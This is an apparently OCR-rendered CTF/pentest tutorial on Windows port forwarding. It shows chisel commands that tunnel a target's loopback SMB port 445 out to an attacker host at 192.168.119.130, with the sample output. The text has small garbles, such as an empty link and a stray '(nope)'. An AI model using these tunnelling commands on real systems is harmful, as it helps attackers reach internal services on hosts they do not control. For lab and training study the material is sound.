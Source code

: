 # Windows Local Privilege Escalation - Port Forwarding for CTF Creators



# Port Forwarding

When a service is running exclusively on an internal port or localhost (127.0.0.1), it is necessary to forward that port to our system to enumerate the service running on that specific socket. There are three primary techniques to achieve this:

- **Local Port Forwarding**
- **Remote Port Forwarding**
- **Dynamic Port Forwarding**

## Port Configuration

Open a PowerShell or a Command Prompt console as Administrator to activate the [Windows Advanced Firewall]() for all the profiles (nope):

```powershell
PS C:\Windows\system32> netsh advfirewall set allprofiles state on
Ok.
```

## Remote Port Forwarding

Remote Port Forwarding means forwarding the port that's listening on the target host loopback interface to our host. This is done by connecting to our host **from** the target host.

Simplified:
- Remote: Connect to ythe attacker host from the target host.

This technique involves forwarding the port that's listening on the loopback interface in the target/victim host to our remote host. Startup by adding the executable permissions to the chisel binary in Linux and setup a listener:

```shell
❯ chmod +x chisel_1.7.7_linux_amd64
❯ ./chisel_1.7.7_linux_amd64 server -p 9191 --reverse
2022/03/07 13:49:57 server: Reverse tunnelling enabled
2022/03/07 13:49:57 server: Fingerprint 0ToKrAu+HqrbE9RCpmLwj5XanRN3Lg9QJ/SaFH8Is5k=
2022/03/07 13:49:57 server: Listening on http://0.0.0.0:9191
2022/03/07 13:50:14 server: session#1: tun: proxy#R:445=>445: Listening
```

Now in Windows execute the following to forward port 445 to the attacker (Linux) host:

```powershell
PS C:\Users\user> .\chisel.exe client 192.168.119.130:9191 R:445:127.0.0.1:445
2022/03/07 14:50:14 client: Connecting to ws://192.168.119.130:9191
2022/03/07 14:50:14 client: Connected (Latency 688.5µs)
```

